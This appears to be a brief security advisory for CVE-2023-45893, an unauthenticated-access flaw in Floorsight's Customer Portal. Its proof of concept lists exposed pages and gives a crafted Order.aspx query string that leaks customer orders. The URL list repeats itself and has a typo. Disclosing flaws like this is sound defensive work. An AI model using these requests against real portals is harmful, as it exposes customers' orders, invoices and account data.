 ## CVE-2023-45893

Name of Product: Customer Portal by Floorsight
The affected or fixed version(s): Versions from Q3 2023 and below (There are no version numbers)
The CVE ID for the entry: CVE-2023-45893
Description: This vulnerability allows a remote attacker to access several sensitive pages while unauthenticated. There are no access controls to access these pages.
Vulnerability Type: Insecure Direct Object Reference

### Proof of Concept

The following are accessible unauthenticated:

* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.com/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx
* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.comm/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx

To leak orders, for example, you may need to play with the parameters. replace CITYNAME with the server it's hosted in; if you know. findbycode=false is the the thing allows orders to be leaked here.

`Order.aspx?Id=1&lserver=<CITYNAME>&findbycode=FALSE&pcode=37374&pname=USERNAME`
